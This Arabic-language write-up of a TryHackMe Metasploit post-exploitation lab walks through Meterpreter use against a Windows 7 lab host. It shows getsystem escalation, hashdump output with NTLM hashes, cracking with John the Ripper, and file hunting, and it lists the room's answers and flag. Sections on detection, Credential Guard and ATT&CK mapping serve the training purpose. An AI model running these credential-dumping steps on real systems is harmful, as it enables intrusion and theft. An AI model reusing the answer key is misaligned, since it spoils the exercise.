

# توثيق غرفة ميتاسبلويت: ما بعد الاستغلال (Metasploit: Post-Exploitation)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثاني عشر — ميتاسبلويت والاستغلال (12-METASPLOIT-AND-EXPLOITATION)
* **اسم الغرفة:** ميتاسبلويت: ما بعد الاستغلال (Metasploit: Post-Exploitation)
* **المعرف البرمجي (Slug):** `metasploitpostexploitation`
* **الرابط المباشر:** [TryHackMe Metasploit: Post-Exploitation](https://tryhackme.com/room/metasploitpostexploitation)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة إرشادية وتحدي عملي (Walkthrough & Challenge Lab)
* **سيناريو التقييم:** استكمال المرحلة الثالثة من تقييم مؤسسة **Stratford Systems** (ما بعد الاستغلال على محطة `STRATFORD-WS01`)
* **عدد المهام:** 6 مهام
* **عدد الأسئلة:** 15 سؤالاً تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Metasploit: Post-Exploitation** المرحلة الحاسمة في أي اختبار اختراق أو محاكاة هجومية بعد نجاح الاستغلال الأولي (Initial Access) وتأسيس موطئ القدم (Foothold). لا تنتهي مهمة مختبر الاختراق بالحصول على جلسة اتصال؛ بل تبدأ هنا مرحلة جمع المعلومات الاستخباراتية الداخلية، وتصعيد الصلاحيات، واستخراج بيانات الاعتماد (Credentials Dumping)، واستكشاف الشبكة الداخلية، وتثبيت الوصول (Persistence)، وتنفيذ الأهداف المقررة في قواعد الاشتباك (Rules of Engagement).

في هذا التقييم لمؤسسة **Stratford Systems**:
1. **التعامل المتقدم مع Meterpreter:** فهم بنية القذيفة التفاعلية العاملة كلياً في الذاكرة عبر تقنية حقن مكتبات الربط الديناميكي الانعكاسية (Reflective DLL Injection)، وتطبيق الأوامر الحيوية (`sysinfo`, `ps`, `migrate`, `download`, `upload`, `shell`, `background`).
2. **استخدام وحدات ما بعد الاستغلال (Post Modules):** استكشاف واستدعاء وحدات الاستطلاع الداخلي المصنفة تحت مسار `post/windows/gather/` و `post/windows/manage/`.
3. **تصعيد الصلاحيات التلقائي ومحاكاة الأنابيب المسماة:** فهم آلية عمل أمر `getsystem` وكيفية استغلال تقنية محاكاة الأنابيب المسماة (Named Pipe Impersonation - Technique 1) للارتقاء من مستخدم عادي إلى أعلى صلاحية في بيئة ويندوز (`NT AUTHORITY\SYSTEM`).
4. **استخراج وفك تشفير بيانات الاعتماد:** سحب تجزئات NTLM من قاعدة بيانات SAM المحلية عبر `hashdump`، وفحص الذاكرة النشطة عبر إضافة `kiwi` (Mimikatz)، واستخدام Hashcat/John the Ripper لكسر كلمة مرور المستخدم `jchambers` (`Trustno1`).
5. **استخراج الأسرار والأعلام الحيوية:** تعقب ومسح نظام الملفات لاكتشاف الملفات السرية الحساسة (`secrets.txt` المخفي في مجلدات البرامج و `realsecret.txt` في مجلد خادم الويب IIS) واستخراج العلم النهائي `THM{Post-Spl1tation}`.

---

## 3. مخطط سير العمل ومراحل ما بعد الاستغلال (Architectural & Post-Exploitation Workflow Flowchart)

يوضح المخطط التالي المراحل التكتيكية المنهجية لما بعد الاستغلال داخل بيئة ويندوز المستهدفة:



---

## 4. المتطلبات وإعداد البيئة (Prerequisites & Environment Setup)

* **الهدف:** جهاز `STRATFORD-WS01` بنظام ويندوز المتصل بشبكة المختبر.
* **الأدوات:** ميتاسبلويت (Metasploit Framework v6+)، قاعدة بيانات PostgreSQL مفعلة.
* **أداة كسر التجزئات:** `hashcat` أو `john` مع قائمة كلمات مرور `rockyou.txt`.

```bash
# التأكد من عمل قاعدة بيانات ميتاسبلويت
sudo msfdb status

# الدخول إلى وحدة التحكم
msfconsole -q

# اختيار مساحة العمل
workspace stratford
```

---

## 5. الفروق الهندسية وميكانيكا العمل (Core Concepts & Technical Deep Dive)

### أ. معمارية Meterpreter وحقن الذاكرة (Reflective DLL Injection)
* القذيفة التقليدية (Command Shell) تفتح منفذاً وتستدعي `cmd.exe` أو `/bin/sh`، مما يترك أثراً جلياً في سجلات العمليات ويسهل رصده وحجبه بواسطة برمجيات مكافحة الفيروسات (AV/EDR).
* **Meterpreter:** عبارة عن حمولة متطورة تعتمد على حقن مكتبات الربط الديناميكي مباشرة في الذاكرة (Reflective DLL Injection) دون كتابة أي ملفات تنفيذية على القرص الصلب (Fileless Execution).
* تتواصل القذيفة عبر بروتوكول مشفر باستخدام هياكل **TLV (Type-Length-Value)**، وتسمح بتحميل امتدادات وظيفية ديناميكية أثناء التشغيل (`stdapi`, `priv`, `kiwi`, `sniffer`).

### ب. ميكانيكا تصعيد الصلاحيات عبر `getsystem` (Technique 1)
عند تشغيل أمر `getsystem` في Meterpreter، فإنه يجرّب تلقائياً عدة تقنيات لتصعيد الصلاحيات إلى `NT AUTHORITY\SYSTEM`:
1. **Technique 1 (Named Pipe Impersonation):** ينشئ Meterpreter خدمة نظامية جديدة وينشئ أنبوباً مسماة (Named Pipe). عندما تبدأ الخدمة بالاتصال بالأنبوب المسمى، يستدعي Meterpreter دالة `ImpersonateNamedPipeClient()` الخاصة بنظام ويندوز، مما يتيح له نسخ رمز الأمان (Security Token) عالي الامتياز للخدمة واستخدامه في خيط المعالجة الخاص به.
2. **Technique 2 (Named Pipe Impersonation with Dropper):** مشابهة للتقنية الأولى ولكنها تسقط ملف DLL مؤقت على القرص في حال فشل الإنشاء في الذاكرة.
3. **Technique 3 (Token Duplication):** البحث عن عملية تعمل بصلاحيات `SYSTEM` ومضاعفة رمز الأمان الخاص بها عبر دالة `DuplicateTokenEx()`.

### ج. استخراج التجزئات: قاعدة SAM مقابل ذاكرة LSASS
* **قاعدة بيانات SAM (`hashdump`):** تقوم وحدة `hashdump` بقراءة ملفات سجل النظام (Registry Hives: `SAM` و `SYSTEM`) لاستخراج تجزئات NTLM للمستخدمين المحليين المسجلين في هذا الجهاز.
* **ذاكرة LSASS (`kiwi` / `creds_all`):** تستجوب ذاكرة عملية `lsass.exe` مباشرة لاستخراج كلمات المرور الصريحة (Plaintext Passwords) إذا كانت بروتوكولات مثل WDigest مفعلة، أو تذاكر Kerberos وبيانات جلسات تسجيل الدخول النشطة.

---

## 6. مرجع أوامر ميتاسبلويت لما بعد الاستغلال (Commands Reference)

| الأمر | السياق | الوصف والوظيفة |
| :--- | :--- | :--- |
| `sysinfo` | Meterpreter | استعراض معلومات النظام، اسم الجهاز، نظام التشغيل، والمعمارية |
| `getuid` | Meterpreter | معرفة المستخدم الحالي وسياق الصلاحية الحالية للجلسة |
| `ps` | Meterpreter | سرد العمليات النشطة وأرقام PID والمعمارية وأسماء المستخدمين |
| `migrate <PID>` | Meterpreter | نقل حمولة الجلسة من عملية إلى عملية أخرى في الذاكرة لتثبيت الاتصال |
| `getsystem` | Meterpreter | محاولة تصعيد الصلاحيات تلقائياً إلى `NT AUTHORITY\SYSTEM` |
| `hashdump` | Meterpreter | استخراج تجزئات كلمات مرور المستخدمين المحليين من قاعدة SAM |
| `load kiwi` | Meterpreter | تحميل امتداد Kiwi المعتمد على أداة Mimikatz الشهيرة |
| `creds_all` | Meterpreter (Kiwi) | استخراج كافة بيانات الاعتماد وكلمات المرور والتجزئات من ذاكرة LSASS |
| `download <Remote> <Local>` | Meterpreter | تحميل ملف من الجهاز المخترق إلى جهاز المهاجم |
| `upload <Local> <Remote>` | Meterpreter | رفع ملف أو أداة من جهاز المهاجم إلى الجهاز المخترق |
| `shell` | Meterpreter | إسقاط قذيفة أوامر ويندوز القياسية التفاعلية (`cmd.exe`) |
| `background` | Meterpreter | إرسال الجلسة الحالية إلى الخلفية للعودة إلى موجه `msf` |
| `sessions -i <ID>` | MSF Console | استعادة والتفاعل مع جلسة سابقة في الخلفية |
| `run post/windows/gather/enum_shares` | MSF / Meterpreter | استكشاف كافة مجلدات المشاركة الشبكية على النظام |

---

## 7. سيناريو التقييم العملي: Stratford Systems (STRATFORD-WS01)

### الخطوة 1: الحصول على الجلسة والاستطلاع
بعد استغلال ثغرة MS17-010 والحصول على جلسة Meterpreter:
```text
meterpreter > sysinfo
Computer        : STRATFORD-WS01
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
```

### الخطوة 2: تصعيد الصلاحيات وسحب التجزئات
```text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jchambers:1000:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:3b1da22b1973c0bb86d4a9b6a9ae65f6:::
```

### الخطوة 3: كسر تجزئة NTLM للمستخدم jchambers
```bash
echo "69596c7aa1e8daee17f8e78870e25a5c" > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# النتيجة: Trustno1
```

### الخطوة 4: استكشاف المشاركات والملفات الحساسة
```cmd
C:\Windows\system32> net share
Share name   Resource                        Remark
-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
projects     C:\Users\jchambers\Desktop\projects
The command completed successfully.
```

البحث عن ملفات الأسرار:
```cmd
C:\> dir /s /b *secret*.txt
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
c:\inetpub\wwwroot\realsecret.txt
```
* محتوى `secrets.txt`: كلمة سر تويتر للمستخدم: `KDSvbsw3849!`
* محتوى `realsecret.txt`: العلم الحقيقي للنظام: `THM{Post-Spl1tation}`

---

## 8. فهرس المهام والأسئلة (Tasks & Questions Index)

| رقم المهمة | عنوان المهمة | عدد الأسئلة | الحالات والأعلام المستخرجة | ملف التوثيق التفصيلي |
| :---: | :--- | :---: | :--- | :---: |
| 01 | Introduction | 1 | فهم دور ما بعد الاستغلال | [TASK-01.md](../../03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-01.md) |
| 02 | Meterpreter | 3 | `php/meterpreter/reverse_tcp`, `reverse_https`, `sysinfo`, `download` | [TASK-02.md](../../03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-02.md) |
| 03 | Post-Exploitation Modules | 1 | مسار الوحدات `post/` | [TASK-03.md](../../03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-03.md) |
| 04 | Privilege Escalation & Gathering | 2 | تقنية `getsystem` الأولى (Named Pipe Impersonation)، أمر `hashdump` | [TASK-04.md](../../03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-04.md) |
| 05 | Challenge: Stratford Systems | 7 | `STRATFORD-WS01`, `projects`, `69596c7aa1e8daee17f8e78870e25a5c`, `Trustno1`, مسار ومحتوى `secrets.txt` (`KDSvbsw3849!`)، ومسار وعلم `realsecret.txt` (`THM{Post-Spl1tation}`) | [TASK-05.md](../../03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-05.md) |
| 06 | Conclusion | 1 | اختتام مرحلة ما بعد الاستغلال بنجاح | [TASK-06.md](../../03-METASPLOIT-POST-EXPLOITATION/TASKS/TASK-06.md) |

---

## 9. تحليل أمني ومفاهيم الدفاع والرصد (Defense, Detection & Blue Team)

1. **كشف تقنيات ترحيل العمليات (Process Migration):**
   - ترصد أنظمة EDR سلوك استدعاء دالات ويندوز مثل `VirtualAllocEx` متبوعة بـ `WriteProcessMemory` ثم `CreateRemoteThread`.
   - يجب إعداد قواعد **Sysmon** (Event ID 8: CreateRemoteThread) لرصد حقن الأكواد بين العمليات ذات الصلاحيات المتفاوتة.
2. **رصد محاولات تصعيد الصلاحيات عبر الأنابيب المسماة:**
   - يولد أمر `getsystem` حدث إنشاء خدمة جديدة (Windows Event ID 7045 - Service Creation).
   - رصد الخدمات العشوائية المؤقتة التي تنشئ أنابيب غير اعتيادية وتتصل فوراً بها.
3. **حماية قاعدة بيانات SAM وذاكرة LSASS:**
   - تفعيل ميزة **Credential Guard** على أنظمة Windows 10/11 و Windows Server لعزل عملية LSASS داخل حاوية افتراضية آمنة تعتمد على Virtualization-based Security (VBS).
   - تطبيق مبدأ الحد الأدنى من الصلاحيات ومنع استخدام كلمات مرور ضعيفة قابلة للكسر السريع.

---

## 10. مصفوفة MITRE ATT&CK للغرفة

| مرحلة الهجوم | المعرف التقني | اسم التقنية | التطبيق العملي في الغرفة |
| :--- | :--- | :--- | :--- |
| **Execution** | T1059.003 | Command and Scripting Interpreter: Windows Command Shell | استخدام أمر `shell` لتنفيذ أوامر `cmd.exe` |
| **Defense Evasion** | T1055 | Process Injection: Reflective DLL Injection | معمارية حمولة Meterpreter وترحيل العمليات `migrate` |
| **Privilege Escalation** | T1134 | Access Token Manipulation: Named Pipe Impersonation | استخدام أمر `getsystem` (Technique 1) |
| **Credential Access** | T1003.002 | OS Credential Dumping: Security Account Manager (SAM) | استخراج تجزئات NTLM عبر `hashdump` |
| **Discovery** | T1082 | System Information Discovery | استدعاء `sysinfo` لمعرفة بيئة النظام |
| **Discovery** | T1135 | Network Share Discovery | استكشاف المشاركات الشبكية (`net share` -> `projects`) |
| **Discovery** | T1083 | File and Directory Discovery | مسح القرص لاكتشاف `secrets.txt` و `realsecret.txt` |
| **Collection** | T1005 | Data from Local System | تنزيل الملفات الحساسة عبر أمر `download` |

---

## 11. الأخطاء الشائعة وحلولها (Troubleshooting & Pitfalls)

* **المشكلة:** فشل أمر `getsystem` مع رسالة خطأ `Access is denied`.
  * *السبب:* عدم استقرار الجلسة أو العمل ضمن معمارية غير متوافقة (x86 payload على نظام x64) أو قيود صلاحيات الرمز الحالي.
  * *الحل:* قم بترحيل الجلسة أولاً إلى عملية نظامية مستقرة ذات معمارية متوافقة (`migrate <PID>` لعملية `explorer.exe` أو `spoolsv.exe`) ثم أعد محاولة `getsystem`.
* **المشكلة:** عدم ظهور النتيجة في `hashdump` أو توقف الجلسة.
  * *السبب:* عدم توفر صلاحيات `SYSTEM` الكاملة.
  * *الحل:* تأكد أولاً من تنفيذ `getuid` والتحقق من أنك `NT AUTHORITY\SYSTEM`.

---

## 12. المقارنات التقنية والتكتيكية (Technical Comparisons)

| وجه المقارنة | Command Shell (`cmd.exe`) | Meterpreter Payload |
| :--- | :--- | :--- |
| **طبيعة التنفيذ** | يستدعي ملفاً تنفيذياً على القرص (`cmd.exe`) | يعمل كلياً في الذاكرة دون كتابة ملفات (Fileless) |
| **البروتوكول** | نص صريح (Plaintext Raw Stream) | قنوات مشفرة مشفرة ببروتوكول TLV |
| **القابلية للتوسع** | محدودة بأوامر نظام التشغيل | قابلة لتحميل إضافات برمجية ديناميكية (`kiwi`, `priv`) |
| **التخفي والكشف** | سهل الرصد والتقاط سجلات العمليات | يحتاج EDR وتحليل ذاكرة متخصص للرصد |

---

## 13. أفضل الممارسات وقواعد الاشتباك (Best Practices & ROE)

1. **الالتزام بحدود النطاق:** تجنب سحب ملفات أو قواعد بيانات تقع خارج نطاق الفحص المعتمد في عقد العمل (SOW).
2. **الحفاظ على سلامة النظام:** تجنب ترحيل الجلسات إلى عمليات حساسة مثل `csrss.exe` أو `winlogon.exe` لمنع حدوث شاشة الموت الزرقاء (BSOD) للنظام المستهدف.
3. **تنظيف الآثار (Cleanup):** حذف أي ملفات تجريبية أو حمولات تم رفعها إلى النظام وتوثيق كافة التعديلات بدقة.

---

## 14. المراجع والمصادر الرسمية (References & Official Links)

* [TryHackMe Metasploit: Post-Exploitation Room](https://tryhackme.com/room/metasploitpostexploitation)
* [Rapid7 Meterpreter Deep Dive Documentation](https://docs.metasploit.com/docs/using-metasploit/intermediate/meterpreter.html)
* [Microsoft Documentation on Named Pipes](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes)
* [MITRE ATT&CK: Technique T1003 (Credential Dumping)](https://attack.mitre.org/techniques/T1003/)
* [توثيق المهام التفصيلي (TASKS.md)](../../03-METASPLOIT-POST-EXPLOITATION/TASKS.md)
* [الملاحظات التقنية الإضافية (ADDITIONAL-NOTES.md)](../../03-METASPLOIT-POST-EXPLOITATION/ADDITIONAL-NOTES.md)
* [قائمة المراجع والمعايير (REFERENCES.md)](../../03-METASPLOIT-POST-EXPLOITATION/REFERENCES.md)
